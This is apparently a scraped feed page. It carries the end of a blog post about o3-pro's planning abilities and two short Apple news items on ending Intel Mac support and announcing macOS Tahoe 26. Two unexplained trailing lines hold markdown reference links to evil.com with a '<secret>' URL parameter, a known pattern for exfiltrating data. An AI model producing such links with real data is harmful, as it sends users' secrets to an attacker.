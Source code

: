 <p>My co-founder Alexis and I took the the time to assemble a history of all of our past planning meetings at Raindrop, all of our goals, even record voice memos: and then asked o3-pro to come up with a plan.</p>
<p>We were blown away; it spit out the exact kind of concrete plan and analysis I've always wanted an LLM to create --- complete with target metrics, timelines, what to prioritize, and strict instructions on what to absolutely cut.</p>
<p>The plan o3 gave us was plausible, reasonable; but the plan o3 Pro gave us was specific and rooted enough that <strong><em>it actually changed how we are thinking about our future.</em></strong></p>
<p>This is hard to capture in an eval.</p>
</blockquote>
<p>It sounds to me like o3-pro works best when combined with tools. I don't have tool support in <code>llm-openai-plugin</code> yet, <a href="https://github.com/simonw/llm-openai-plugin/issues/20">here's the relevant issue</a>.


    <p>Tags: <a href="https://simonwillison.net/tags/llm">llm</a>, <a href="https://simonwillison.net/tags/openai">openai</a>, <a href="https://simonwillison.net/tags/llm-reasoning">llm-reasoning</a>, <a href="https://simonwillison.net/tags/llm-pricing">llm-pricing</a>, <a href="https://simonwillison.net/tags/o3">o3</a>, <a href="https://simonwillison.net/tags/ai">ai</a>, <a href="https://simonwillison.net/tags/llms">llms</a>, <a href="https://simonwillison.net/tags/llm-release">llm-release</a>, <a href="https://simonwillison.net/tags/generative-ai">generative-ai</a>, <a href="https://simonwillison.net/tags/pelican-riding-a-bicycle">pelican-riding-a-bicycle</a></p> 

<br> 

<https://simonwillison.net/2025/Jun/10/o3-pro/#atom-everything>

---

## Ending macOS Intel Support

date: 2025-06-10, from: Michael Tsai

Ernie Smith (via Hacker News): And today, we learned that Apple is finally ending its 20-year run of Intel-based Macs.That&#8217;s the bad news. The good news is that they gave the public one more year of new versions, along with the promise of potential security fixes, avoiding an uncomfortable rug-pull like the one that many [&#8230;] 

<br> 

<https://mjtsai.com/blog/2025/06/10/ending-macos-intel-support/>

---

## macOS Tahoe 26 Announced

date: 2025-06-10, from: Michael Tsai

Apple (preview, Hacker News, Reddit): With the new design, iconic elements of macOS will feel more expressive, delightful, and personal while remaining instantly familiar, including the desktop, Dock, in-app navigation, and toolbars. Users can further personalize the experience with an updated Control Center and new color options for folders, app icons, and widgets. Continuity gets [&#8230;] 

<br> 


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;